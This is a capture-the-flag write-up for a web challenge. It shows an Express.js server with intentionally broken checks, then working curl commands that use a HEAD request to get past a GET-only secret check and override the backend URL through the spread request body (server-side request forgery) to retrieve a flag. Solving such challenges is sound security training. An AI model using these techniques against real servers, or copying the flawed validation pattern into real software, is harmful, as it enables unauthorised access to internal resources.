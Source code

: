 # Breaking Free
*Our agents managed to obtain the source code from the C2 server that COViD's bots used to register upon infecting its victim. Can you bypass the checks to retrieve more information from the C2 Server?*

*[C2 Server](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41051/)* 

### Analysing the challenge
- This seems to be another API challenge where you will need to send malicious requests to the server.
- The source code of the server is as shown, as provided by the challenge:
```js
const express = require('express');
const bodyParser = require('body-parser');
const axios = require('axios');
const app = express();
const router = express.Router();
const COVID_SECRET = process.env.COVID_SECRET;
const COVID_BOT_ID_REGEX = /^[a-f0-9]{8}-[a-f0-9]{4}-4[a-f0-9]{3}-[89aAbB][a-f0-9]{3}-[a-f0-9]{12}$/g;
const Connection = require("./db-controller");
const dbController = new Connection();
const COVID_BACKEND = "web_challenge_5_dummy"

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

//Validates requests before we allow them to hit our endpoint
router.use("/register-covid-bot", (req, res, next) => {
  var invalidRequest = true;
  if (req.method === "GET") {
    if (req.query.COVID_SECRET && req.query.COVID_SECRET === COVID_SECRET) {
      invalidRequest = false;
    }
  } else {//Handle POST
    let covidBotID = req.headers['x-covid-bot']
    if (covidBotID && covidBotID.match(COVID_BOT_ID_REGEX)) {
      invalidRequest = false;
    }
  }

  if (invalidRequest) {
    res.status(404).send('Not found');
  } else {
    next();
  }

});

//registers UUID associated with covid bot to database
router.get("/register-covid-bot", (req, res) => {
  let { newID } = req.query;

  if (newID.match(COVID_BOT_ID_REGEX)) {
    //We enroll a maximum of 100 UUID at any time!!
    dbController.addBotID(newID).then(success => {
      res.send({
        "success": success
      });
    });
  }

});

//Change a known registered UUID
router.post("/register-covid-bot", (req, res) => {
  let payload = {
    url: COVID_BACKEND,
    oldBotID: req.headers['x-covid-bot'],
    ...req.body
  };
  if (payload.newBotID && payload.newBotID.match(COVID_BOT_ID_REGEX)) {
    dbController.changeBotID(payload.oldBotID, payload.newBotID).then(success => {
      if (success) {
        fetchResource(payload).then(httpResult => {
          res.send({ "success": success, "covid-bot-data": httpResult.data });
        })


      } else {
        res.send({ "success": success });
      }
    });
  } else {
    res.send({ "success": false });
  }

});

async function fetchResource(payload) {
  //TODO: fix dev routing at backend http://web_challenge_5_dummy/flag/42
  let result = await axios.get(`http://${payload.url}/${payload.newBotID}`).catch(err => { return { data: { "error": true } } });
  return result;
}

app.use("/", router);
```
- A simple look at the code tells us that the comments will come in handy later on in the challenge (the TODO).
- We see that there are 2 handlers for both a GET request and a POST request.
- There is a "security" middleware (a middleware is a function that requests have to pass through before it can continue to be processed) which checks for either the secret or a valid bot ID.

### Middleware Minecraft
- Looking at the style and pattern of the UUID, it is actually a v4 UUID (coincidentally it also resembles a Minecraft account UUID).
```js
const COVID_BOT_ID_REGEX = /^[a-f0-9]{8}-[a-f0-9]{4}-4[a-f0-9]{3}-[89aAbB][a-f0-9]{3}-[a-f0-9]{12}$/g;
// sample valid UUID: 747eb9e6-637b-4641-a058-835d5f7bbadc
```
- Since there will almost be no way to obtain the secret and we do not have any known bot IDs, we have to look into other ways to create our own bot ID.
- To create a bot ID, we have to get the request to be recognised as a GET request and pass the middleware secret too.
- Since the latter is highly impossible, we look into spoofing the request.
- Browsing the source code (or the [documentation](https://expressjs.com/en/api.html#router.METHOD) for those not well-versed with javascript), we find out this interesting line of code [over here](https://github.com/expressjs/express/blob/master/lib/router/route.js#L65).
- We also find a corresponding issue created at GitHub [here](https://github.com/expressjs/expressjs.com/issues/748).
- So all we need to do is to make a HEAD request to the server with our own bot ID as query and header (to pass middleware check)!
- Command: `$ curl -X HEAD "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41051/register-covid-bot?newID=747eb9e6-637b-4641-a058-835d5f7bbadc" -H "x-covid-bot: 747eb9e6-637b-4641-a058-835d5f7bbadc"`
- The response will have a content length of 16, which presumably means `{"success":true}` and we are ready to do the next step!

### Dev for dummies
- We see that if we make a POST request to `/register-covid-bot` with our bot ID as payload, the server will make a backend request to the payload URL (`web_challenge_5_dummy`), and then proceed to output the response payload.
- The url is formed by concatenating the url and the bot ID: ```axios.get(`http://${payload.url}/${payload.newBotID}`)```
- So looking at that TODO comment line, we know that we simply have to make request to `web_challenge_5_dummy/flag/42`, but how do we do so with the extra bot ID at the back? 
- We will need to use the fragment sign `#` to append the bot ID as a fragment instead and won't be processed by the backend server.
- This can be possible as the developer used the spread operator for the request body, meaning that any request sent with additional keys will replace the existing keys, in which our case would be the `url` key of the payload object.
- Hence, we sent this command to the server with another UUID: `curl -X POST http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41051/register-covid-bot -H "x-covid-bot: 747eb9e6-637b-4641-a058-835d5f7bbadc" -H "Content-Type: application/json" -d '{"url":"web_challenge_5_dummy/flag/42#","newBotID":"2b08c880-f540-4485-975a-e935de95595c"}'`
- Response: `{"success":true,"covid-bot-data":{"flag":"govtech-csg{ReQu3$t_h34D_0R_G3T?}"}}`

### Flag! (Hurray!)
```govtech-csg{ReQu3$t_h34D_0R_G3T?}```

### Learning Outcomes
- Scrutinize the code provided carefully in web challenges, there are many hints and clues hidden in the challenge (such as using `req.method` to check the method type, and the TODO comment)
- This challenge also does require some knowledge on HTTP fragments, as using a GET query (`?`) will not work to hide the bot ID and solve the challenge.
- Some people might have thought that the `web_challenge_5_dummy` was not a valid host for the challenge, and instead went ahead to try to find the actual backend server, which was not intended by the challenge. Most server dynamic variables related to the challenge will be stored in the environment (e.g. `process.env`, the COVID_SECRET for example). Hence, there is no need to find the actual backend server url.
